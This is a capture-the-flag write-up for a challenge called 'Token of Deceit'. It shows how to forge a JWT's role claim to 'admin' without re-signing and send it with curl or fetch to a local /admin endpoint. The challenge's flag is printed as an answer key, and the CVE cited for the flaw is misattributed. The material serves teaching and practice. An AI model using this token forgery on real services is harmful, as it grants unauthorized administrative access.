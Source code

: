 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
   
     •	Create an account to be automatically assigned the "user" role.

2. Login

     •	After account creation, you’ll be redirected to the login page.
   
     •	Use the same credentials to log in.
   
     •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
   
     a. Open the console:
   
       •	On MacOS, press (Option + Command + J).
   
       •	On Windows, press (Ctrl + Shift + J).
       
     b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
   
     c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):
   
        localStorage.getItem('token');
      
     d. The token role will be "user" as per your credentials.
   
     e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
     a. Change the role to "admin".
   
       For example:
   
       {
         "username": "isabella",
         "role": "admin",
         "iat": 1738901843,
         "exp": 1738905443
       }
   
     b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
   
     c. Your JWT is now modified.

6. Send the Manipulated JWT to the Server (2 ways)
   
   You can use one of the following methods to send the modified JWT to the server:
   
   a. Using cURL (command line):
   
     •	Open your terminal and type:
     
       curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin
   
   b. Using the Browser Console:
   
     •	Run this JavaScript:
     
       fetch("http://localhost:3000/admin", {
           method: "GET",
           headers: {
               "Authorization": "Bearer MANIPULATED-JWT"
           }
       })
       .then(response => response.json())
       .then(data => console.log(data))
       .catch(error => console.error("Error:", error));

7. Access the Admin Endpoint and Retrieve the Flag
    
     a. The server will decode the manipulated token and grant admin access.
    
     b. The server will respond with the flag:
   
         {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
